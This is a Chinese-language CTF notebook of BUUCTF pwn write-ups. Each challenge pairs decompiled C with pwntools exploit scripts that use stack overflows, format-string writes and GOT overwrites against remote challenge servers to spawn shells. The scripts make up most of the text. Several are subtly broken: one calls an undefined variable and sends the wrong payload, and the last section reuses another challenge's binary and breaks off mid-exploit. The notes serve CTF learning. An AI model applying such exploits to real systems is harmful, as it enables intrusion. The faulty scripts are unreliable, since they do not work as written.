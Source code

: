 # buuctf-pwn



## warmup_csaw_2016



```c
__int64 __fastcall main(int a1, char **a2, char **a3)
{
  char s[64]; // [rsp+0h] [rbp-80h] BYREF
  char v5[64]; // [rsp+40h] [rbp-40h] BYREF

  write(1, "-Warm Up-\n", 0xAuLL);
  write(1, "WOW:", 4uLL);
  sprintf(s, "%p\n", sub_40060D);
  write(1, s, 9uLL);
  write(1, ">", 1uLL);
  return gets(v5);
}
```



```python
from pwn import *

sh = remote('node4.buuoj.cn', 25891)
sh.sendline("A"*(0x40+8)+p64(0x40060D))
sh.interactive()
```





## ciscn_2019_n_1



+ amd64-64-little、NX
+ 考察点：
  + 十六进制的存储
  + ret2text覆盖返回地址



```c
int func()
{
  char v1[44]; // [rsp+0h] [rbp-30h] BYREF
  float v2; // [rsp+2Ch] [rbp-4h]

  v2 = 0.0;
  puts("Let's guess the number.");
  gets(v1);
  if ( v2 == 11.28125 )
    return system("cat /flag");
  else
    return puts("Its value should be 11.28125");
}
```





(一)栈溢出写入浮点数

浮点数的小数点表示法是直观的表现形式，实际在计算机中以十六进制（二进制）的指定形式表示。

+ 十进制浮点数 => 二进制形式 => 十六进制形式

由于涉及到判断是否相等的操作，那么11.28125的十六进制形式也会在程序中存储。

> ```c
> 11.28125 转换为二进制为 1011.01001
> 11.28125 在计算机内部储存为 0100 0001 0011 0100 1000 0000 0000 0000
> 即11.28125 ==> 0x41348000
> ```



（二）栈溢出写入返回地址

让gets函数直接返回到system(cat flag)代码处，跳过if条件判断。

```python
from pwn import *
r=remote("node4.buuoj.cn",28863)

ret_arr = 0x4006BE
float_num = 0x41348000 
payload1 = 'a'*(0x30 - 0x4) + p64(float_num) 
payload2 = 'a'*(0x30 + 8) + p64(ret_arr)
p.sendline(payload1)
p.interactive()
```





## pwn1_sctf_2016 [源码没有读懂]





fgets看似限制了输入字符数为32，但后面存在字符替换操作。每单个字符`I`都会被替换为三个字符`You` 。而变量s的大小为60，可以输入20个`I`，替换后就得到了60个字符，利用栈溢出覆盖ebp和返回地址为get_flag函数。





```c
int vuln()
{
  const char *v0; // eax
  char s[32]; // [esp+1Ch] [ebp-3Ch] BYREF
  char v3[4]; // [esp+3Ch] [ebp-1Ch] BYREF
  char v4[7]; // [esp+40h] [ebp-18h] BYREF
  char v5; // [esp+47h] [ebp-11h] BYREF
  char v6[7]; // [esp+48h] [ebp-10h] BYREF
  char v7[5]; // [esp+4Fh] [ebp-9h] BYREF

  printf("Tell me something about yourself: ");
  fgets(s, 32, edata);
  std::string::operator=(&input, s);
  std::allocator<char>::allocator(&v5);
  std::string::string(v4, "you", &v5);
  std::allocator<char>::allocator(v7);
  std::string::string(v6, "I", v7);
  replace((std::string *)v3);
  std::string::operator=(&input, v3, v6, v4);
  std::string::~string(v3);
  std::string::~string(v6);
  std::allocator<char>::~allocator(v7);
  std::string::~string(v4);
  std::allocator<char>::~allocator(&v5);
  v0 = (const char *)std::string::c_str((std::string *)&input);
  strcpy(s, v0);
  return printf("So, %s\n", s);
}
```



![在这里插入图片描述](https://img-blog.csdnimg.cn/01117078187747439192eab955af9598.png)



```
from pwn import *
r=remote("node4.buuoj.cn",25145)
#0x3c=60 
#every "I" will be replaced into "you", need 60/3=20 I
r.sendline("I"*20+"B"*4+p32(0x08048F0D))
r.interactive()
```







## jarvisoj_level0





```
int __cdecl main(int argc, const char **argv, const char **envp)
{
  write(1, "Hello, World\n", 0xDuLL);
  return vulnerable_function();
}
ssize_t vulnerable_function()
{
  char buf[128]; // [rsp+0h] [rbp-80h] BYREF

  return read(0, buf, 0x200uLL);
}
int callsystem()
{
  return system("/bin/sh");
}
```





```
from pwn import *
r=remote("node4.buuoj.cn",25007)
backdoor=0x400596
r.sendline("A"*(0x80+8)+p64(backdoor))
r.interactive()
```



## [第五空间2019 决赛]PWN5



+ Canary
+ i386-32-little
+ NX



num_addr=0x804C044 	#4字节

p32(num_addr)+"%10$n"

输入字符串的内容所在地址，相对格式化字符串所在地址的偏移为第10个参数



思路：

+ 格式化字符串漏洞任意地址写入，覆盖read的返回地址为system执行地址
+ 修改num的大小



**【疑问】为什么要写入四字节的数据**

![img](https://img-blog.csdnimg.cn/1bb32ec175a6481fb888fe6ebae7e299.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBATF9feQ==,size_19,color_FFFFFF,t_70,g_se,x_16)

```
#coding=utf-8
from pwn import *

p = remote('node4.buuoj.cn',28526)
addr = 0x0804C044
#地址，也就相当于可打印字符串，共16byte
payload = p32(addr)+p32(addr+1)+p32(addr+2)+p32(addr+3)
#开始将前面输出的字符个数输入到地址之中，hhn是单字节输入，其偏移为10
#%10$hhn就相当于读取栈偏移为10处的数据当做地址，然后将前面的字符数写入到地址之中
payload += "%10$hhn%11$hhn%12$hhn%13$hhn"
p.sendline(payload)
# 0x10101010  4 * len(p32()) = 0x10
p.sendline(str(0x10101010))
p.interactive()
```



+ fmtstr：任意地址写入，修改num的值

```
from pwn import *
sh = remote('node4.buuoj.cn',28526)
unk_804C044 = 0x804C044
payload = fmtstr_payload(10, {unk_804C044: 0x1})
sh.sendline(payload)
sh.sendline(str(0x1))
sh.interactive()
```



```
#coding=utf-8
from pwn import *

p = remote('node4.buuoj.cn',28526)
elf = ELF("5thspace2019pwn5")
atoi_got = elf.got["atoi"]
system_plt = elf.plt["system"]
payload = fmtstr_payload(10,{atoi_got:system_plt})
p.sendline(payload)
p.sendline("/bin/sh\x00")  #!
p.interactive()
```





## 

思路：利用gets栈溢出泄露puts函数内存地址，从而确定libc版本，得到system("/bin/sh")



为了绕过while循环退出条件`v0>=strlen(s)` ，可以构造"\0"字符截断，作为溢出padding的一部分。

![img](https://img-blog.csdnimg.cn/20210322184607848.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80NTU1NjQ0MQ==,size_16,color_FFFFFF,t_70)



puts@plt(puts@got) -> main 

总结做题中的错误：

+ 忘记64位需要堆栈平衡，需要使用gadget来构造参数
+ 没有看懂程序执行逻辑，没有看到while循环中的语句，如果不截断字符将会一直进行循环。

```
from pwn import *

p = remote('node4.buuoj.cn',28526)
elf = ELF("5thspace2019pwn5")
puts_plt=elf.plt["puts"]
puts_got=elf.got["puts"]
main_addr=elf.sym["main"]
p.sendline("1")
p.recvuntil("\n")
p.sendline("A"*(0x50+8)+p64(puts_plt)+p64(puts_got)+p64(main_addr))




```













































